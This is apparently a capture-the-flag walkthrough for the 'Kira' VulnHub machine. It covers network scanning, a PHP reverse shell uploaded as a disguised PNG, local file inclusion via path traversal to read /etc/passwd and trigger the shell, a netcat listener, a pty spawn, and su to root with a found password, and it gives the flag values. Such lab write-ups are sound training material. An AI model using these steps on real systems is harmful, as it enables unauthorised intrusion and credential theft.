

# Kira CTF Writeup

## Description
This is a Kira CTF that is also easy to enumerate, designed for beginners. The objective is to gain shell access and find two flags, `user.txt` and `root.txt`.

- Author: Bassam Assiri
- Link: [Kira CTF](https://www.vulnhub.com/entry/kira-ctf,594/)
- Tools Used: netdiscover, nmap, nc
- Prerequisites: Basic knowledge of Linux architecture and web networking.

## Walkthrough

### Step 1: Identify the IP of the Machine & Network Scan
To identify the IP of the machine, we use netdiscover with the following command:
```
netdiscover -r 192.168.0.0/16
```
In my case, the IP is "192.168.141.132". Please note that the IP may be different in your case.



Now, run a nmap scan with the command: 
```
nmap -A -v -O -T4 192.168.141.132
```
The result for this nmap scan is:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site does not have a title (text/html).
MAC Address: 00:0C:29:11:19:0A (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
```

### Step 2: Explore the Web Server
As we saw in the network scan, only port 80 is open, which means a web server is hosted on the machine. By visiting the IP, we get a web page.


### Step 3: Exploiting File Upload Vulnerability
By visiting the upload button, it opens a page where we can upload a PNG file. 
- Here only PNG files are allowed to be uploaded. So, we need to create a PNG file with PHP code. 
- We can use the PHP reverse shell code from [this GitHub repository](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and modify it with our IP (attacker's IP) and port (in my case, it is "1234"). 
- Save this PHP code in a file named "Image.php.png" and upload it to the webpage. 
- We will get a popup indicating a successful upload. 
- By visiting the `/uploads/` directory, we can see that the PNG file has been uploaded.
  

On the first page, we saw a language button, and the page has the title of `LFI (Local File Inclusion)`. 
- In LFI vulnerability, we can show internal files by giving commands in the URL.
- To view the "passwd" file of the server, visit the URL `192.168.141.132/language.php?lang=../../../../../../etc/passwd`.


### Step 4: Gaining Shell Access
To execute the PHP reverse shell, visit the uploaded PNG file. 
- Run Netcat on port `1234` by typing `nc -nlvp 1234` in the terminal.
- Visit the URL `192.168.141.132/language.php?lang=../../../../../../var/www/html/uploads/image.php.png`.
- By doing this, we get the shell.


### Step 5: Finding the User Flag
- In the directory `/var/www/html/`, we found one directory named `supersecret-for-aziz` and a file named `bassam-pass.txt`.
- This file contains the password of "bassam".
- By reading that file, we get the password of Bassam, which is `Password123!@#`.


### Step 6: Gaining Root Access
To login into user bassam's account, use the command `su bassam`. 
- But it shows that `su` is only run on the terminal. 


To grab the terminal, use the python command: 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
Now, we can get into Bassam's account.


In the user's home directory, I found the `user.txt` file, and inside it there is the flag:
```
THM{Bassam-Is-Better_Than-KIRA}
```


### Step 7: Getting Root Flag
Now, to grab the root flag, execute the command `su -l` and enter the user's password `Password123!@#`. By accessing root, we have the root flag: 
```
THM{root-Is_Better-Than_All-of-THEM-31337}
```


